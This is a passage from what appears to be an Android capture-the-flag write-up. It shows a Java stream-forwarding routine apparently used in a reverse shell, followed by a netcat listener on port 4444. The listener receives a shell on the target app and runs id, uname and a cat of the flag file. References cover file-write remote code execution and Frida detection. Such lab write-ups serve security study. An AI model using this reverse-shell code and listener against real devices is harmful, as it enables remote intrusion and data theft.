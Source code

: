 ```java

private static void forwardStream(final InputStream input, final OutputStream output) {
    new Thread(new Runnable() {
        @Override
        public void run() {
            try {
                final byte[] buf = new byte[4096];
                int length;
                while ((length = input.read(buf)) != -1) {
                    if (output != null) {
                        output.write(buf, 0, length);
                        if (input.available() == 0) {
                            output.flush();
                        }
                    }
                }
            } catch (Exception e) {
                // die silently
            } finally {
                try {
                    input.close();
                    output.close();
                } catch (IOException e) {
                    // die silently
                }
            }
        }
    }).start();
}
```

With the following result:

```bash
➜ nc -l -p 4444
id
uid=10371(u0_a371) gid=10371(u0_a371) groups=10371(u0_a371),3003(inet),9997(everybody),20371(u0_a371_cache),50371(all_a371) context=u:r:untrusted_app:s0:c512,c768
whoami
u0_a371
uname -a
Linux localhost 4.4.111-14023573-QB19093103 #1 SMP PREEMPT Wed Jul 25 16:35:37 KST 2018 aarch64
cat /data/data/nn8ed.updateme/files/flag.txt
nn8ed{y0um45t4lw4ysUpd4t3!}
```

## References

* https://www.nowsecure.com/blog/2015/06/15/a-pattern-for-remote-code-execution-using-arbitrary-file-writes-and-multidex-applications/
* https://www.vantagepoint.sg/blog/90-the-jiu-jitsu-of-detecting-frida
* https://sushi2k.gitbooks.io/the-owasp-mobile-security-testing-guide/content/0x05j-Testing-Resiliency-Against-Reverse-Engineering.html
* https://github.com/MichaelRocks/paranoid
* https://github.com/benjholla/AndroidReverseShell
